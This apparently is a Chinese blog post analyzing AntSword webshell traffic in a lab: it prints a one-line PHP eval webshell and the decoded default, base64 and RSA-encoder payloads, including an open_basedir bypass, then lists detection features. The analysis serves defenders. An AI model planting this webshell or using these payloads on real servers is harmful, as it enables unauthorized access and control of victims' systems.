







## 蚁剑流量分析

在靶机上面上传一个一句话木马，并使用蚁剑连接，进行抓包，一句话木马内容

```plain
<?php @eval($_POST[1]);
```

### defalut 编码器

在使用蚁剑连接的时候使用 default 编码器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323173735-fb33edca-e8f8-1.png)

连接之后**进行的操作行为是查看当前目录 (/var/www/html) 下的文件**，抓取到的流量内容如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323173745-00f05e9c-e8f9-1.png)  
对此进行解码并格式化

```plain
1=@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir=@ini_get("open_basedir");
if($opdir) {
    $ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr=preg_split("/;|:/",$opdir);
    @array_push($oparr,$ocwd,sys_get_temp_dir());
    foreach($oparr as $item) {
        if(!@is_writable($item)) {
            continue;
        }
        ;
        $tmdir=$item."/.643496363f4d";
        @mkdir($tmdir);
        if(!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr=@preg_split("/\\\\|\//",$tmdir);
        for ($i=0;$i<sizeof($cntarr);$i++) {
            @chdir("..");
        }
        ;
        @ini_set("open_basedir","/");
        @rmdir($tmdir);
        break;
    }
    ;
}
;
;
function asenc($out) {
    return $out;
}
;
function asoutput() {
    $output=ob_get_contents();
    ob_end_clean();
    echo "b2"."ea8";
    echo @asenc($output);
    echo "63f52"."dd5fe";
}
ob_start();
try {
    $D=base64_decode(substr($_POST["r698bc8b603728"],2));
    $F=@opendir($D);
    if($F==NULL) {
        echo("ERROR:// Path Not Found Or No Permission!");
    } else {
        $M=NULL;
        $L=NULL;
        while($N=@readdir($F)) {
            $P=$D.$N;
            $T=@date("Y-m-d H:i:s",@filemtime($P));
            @$E=substr(base_convert(@fileperms($P),10,8),-4);
            $R="    ".$T."  ".@filesize($P)."   ".$E."
";
            if(@is_dir($P))$M.=$N."/".$R; else $L.=$N.$R;
        }
        echo $M.$L;
        @closedir($F);
    }
    ;
}
catch(Exception $e) {
    echo "ERROR://".$e->getMessage();
}
;
asoutput();
die();
&r698bc8b603728=w3L3Zhci93d3cvaHRtbC8=
```

分析一下上面的代码：

-   `1`是我们的执行参数，此时是执行了一堆 php 代码，而不是执行了一个简单的`system('ls');`操作
-   `@ini_set("display_errors", "0");` -禁止显示 PHP 错误信息。
-   `@set_time_limit(0);` -设置脚本执行时间不受限制。
-   而这段 php 代码中有一段接收参数的代码`$D=base64_decode(substr($_POST["r698bc8b603728"],2));` 接收 php 参数`r698bc8b603728`的值并进行去掉前两位，进行 base64 解密，在数据末尾我们可以看到`r698bc8b603728`的值，我们这其进行解码操作，得到的值正是当前路径`/var/www/html` ,这个值解密之后，传参给`@opendir()`读取这个路径下面的文件。  
    这大概是整个请求的执行逻辑。

### base64 编码器

上面的只是编码设置为`default`的请求，请求体只是经过了一层 url 编码，并没有经过过多的编码和加密，再来分析一下 base64 编码器的情况。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323173756-07b3d8f8-e8f9-1.png)

抓包分析，这里用同样的操作，还是查看`/var/www/html`下的文件，对比刚刚的看有什么不同

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323173803-0bce5684-e8f9-1.png)

可以比较直观的看出，请求体并不再是单纯的 url 编码了，而是混杂了 base64 编码，对请求体进行一次 url 解码

```plain
1=@eval(@base64_decode($_POST['ied5afd67ff4a5']));&ied5afd67ff4a5=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgIjAiKTtAc2V0X3RpbWVfbGltaXQoMCk7JG9wZGlyPUBpbmlfZ2V0KCJvcGVuX2Jhc2VkaXIiKTtpZigkb3BkaXIpIHskb2N3ZD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7JG9wYXJyPXByZWdfc3BsaXQoIi87fDovIiwkb3BkaXIpO0BhcnJheV9wdXNoKCRvcGFyciwkb2N3ZCxzeXNfZ2V0X3RlbXBfZGlyKCkpO2ZvcmVhY2goJG9wYXJyIGFzICRpdGVtKSB7aWYoIUBpc193cml0YWJsZSgkaXRlbSkpe2NvbnRpbnVlO307JHRtZGlyPSRpdGVtLiIvLmYzOGMxOGRlMCI7QG1rZGlyKCR0bWRpcik7aWYoIUBmaWxlX2V4aXN0cygkdG1kaXIpKXtjb250aW51ZTt9QGNoZGlyKCR0bWRpcik7QGluaV9zZXQoIm9wZW5fYmFzZWRpciIsICIuLiIpOyRjbnRhcnI9QHByZWdfc3BsaXQoIi9cXFxcfFwvLyIsJHRtZGlyKTtmb3IoJGk9MDskaTxzaXplb2YoJGNudGFycik7JGkrKyl7QGNoZGlyKCIuLiIpO307QGluaV9zZXQoIm9wZW5fYmFzZWRpciIsIi8iKTtAcm1kaXIoJHRtZGlyKTticmVhazt9O307O2Z1bmN0aW9uIGFzZW5jKCRvdXQpe3JldHVybiAkb3V0O307ZnVuY3Rpb24gYXNvdXRwdXQoKXskb3V0cHV0PW9iX2dldF9jb250ZW50cygpO29iX2VuZF9jbGVhbigpO2VjaG8gIjM3MzAiLiJmMjEzIjtlY2hvIEBhc2VuYygkb3V0cHV0KTtlY2hvICJjNmMiLiJkY2VlIjt9b2Jfc3RhcnQoKTt0cnl7JEQ9YmFzZTY0X2RlY29kZShzdWJzdHIoJF9QT1NUWyJ2NTM5MTdkYzYyZWFlOCJdLDIpKTskRj1Ab3BlbmRpcigkRCk7aWYoJEY9PU5VTEwpe2VjaG8oIkVSUk9SOi8vIFBhdGggTm90IEZvdW5kIE9yIE5vIFBlcm1pc3Npb24hIik7fWVsc2V7JE09TlVMTDskTD1OVUxMO3doaWxlKCROPUByZWFkZGlyKCRGKSl7JFA9JEQuJE47JFQ9QGRhdGUoIlktbS1kIEg6aTpzIixAZmlsZW10aW1lKCRQKSk7QCRFPXN1YnN0cihiYXNlX2NvbnZlcnQoQGZpbGVwZXJtcygkUCksMTAsOCksLTQpOyRSPSIJIi4kVC4iCSIuQGZpbGVzaXplKCRQKS4iCSIuJEUuIgoiO2lmKEBpc19kaXIoJFApKSRNLj0kTi4iLyIuJFI7ZWxzZSAkTC49JE4uJFI7fWVjaG8gJE0uJEw7QGNsb3NlZGlyKCRGKTt9O31jYXRjaChFeGNlcHRpb24gJGUpe2VjaG8gIkVSUk9SOi8vIi4kZS0+Z2V0TWVzc2FnZSgpO307YXNvdXRwdXQoKTtkaWUoKTs=&v53917dc62eae8=ckL3Zhci93d3cvaHRtbC8=
```

再将 base64 编码进行解码

```plain
1=@eval(@base64_decode($_POST['ied5afd67ff4a5']));
&ied5afd67ff4a5=@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir=@ini_get("open_basedir");
if($opdir) {
    $ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr=preg_split("/;|:/",$opdir);
    @array_push($oparr,$ocwd,sys_get_temp_dir());
    foreach($oparr as $item) {
        if(!@is_writable($item)) {
            continue;
        }
        ;
        $tmdir=$item."/.f38c18de0";
        @mkdir($tmdir);
        if(!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr=@preg_split("/\\\\|\//",$tmdir);
        for ($i=0;$i<sizeof($cntarr);$i++) {
            @chdir("..");
        }
        ;
        @ini_set("open_basedir","/");
        @rmdir($tmdir);
        break;
    }
    ;
}
;
;
function asenc($out) {
    return $out;
}
;
function asoutput() {
    $output=ob_get_contents();
    ob_end_clean();
    echo "3730"."f213";
    echo @asenc($output);
    echo "c6c"."dcee";
}
ob_start();
try {
    $D=base64_decode(substr($_POST["v53917dc62eae8"],2));
    $F=@opendir($D);
    if($F==NULL) {
        echo("ERROR:// Path Not Found Or No Permission!");
    } else {
        $M=NULL;
        $L=NULL;
        while($N=@readdir($F)) {
            $P=$D.$N;
            $T=@date("Y-m-d H:i:s",@filemtime($P));
            @$E=substr(base_convert(@fileperms($P),10,8),-4);
            $R="    ".$T."  ".@filesize($P)."   ".$E."
";
            if(@is_dir($P))$M.=$N."/".$R; else $L.=$N.$R;
        }
        echo $M.$L;
        @closedir($F);
    }
    ;
}
catch(Exception $e) {
    echo "ERROR://".$e->getMessage();
}
;
asoutput();
die();
&v53917dc62eae8=ckL3Zhci93d3cvaHRtbC8=
```

可以看到本质上是和上面的差不多的，只不过是执行参数`1`的内容是接收一个参数，并将其进行 base64 解码和执行，而这个参数`ied5afd67ff4a5`的值正是需要执行的代码  
同样的我将编码设置为`chr`除了更加混淆的请求体，基本上还是换汤不换药的套路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323173815-12967762-e8f9-1.png)

### RSA 流量加密

在上面的流量分析种，只不过是套了多层编码，以及编码加入一些脏数据进行混淆，可以很简单的进行还原，但是蚁剑还可以进行对流量进行 RSA 加密的操作，具体操作如下  
打开 RSA 编码器设置-->编码管理-->新建编码器-->PHP RSA  
生成编码器之后再点击 RSA 配置-->生成

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323173820-160eb4cc-e8f9-1.png)

将生成的 php 代码上传到服务器，这段代码的连接参数是`ant` 开始连接木马 抓包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240323173824-18206e04-e8f9-1.png)

此时在请求包里面已经没有了传统的`@ini_set("display_errors", "0");`与`@set_time_limit(0);`了，也没有什么代码，但是缺陷就是响应包里面并没有进行 rsa 加密

### 特性总结

在对比了多个请求之后，可以分析到以下特征

-   明文的每一个蚁剑请求的请求体中都包含了`@ini_set("display_errors", "0");`与`@set_time_limit(0);`
-   对于加密和编码之后的请求包里面就没有了`@ini_set("display_errors", "0");`与`@set_time_limit(0);`
-   如果蚁剑的请求中包含了多个参数，那个该参数的值为前两位为混淆字符，需要删除前两位才能进行 base64 解码
-   User-Agent 为正常浏览器的 ua 表示，没有关键性字符，每次请求都可能不同，且经过多次分析发现 ua 标识里面的系统类型甚至还会进行切换，如此的不规律不就成了一种规律了吗？
-   蚁剑的响应内容并不一定是明文，也可以是经过编码之后的内容。  
    在写此文时，我也参考了别的文章，有文章说蚁剑的 ua 标识特征为`antsword xxx`,这个可能是版本问题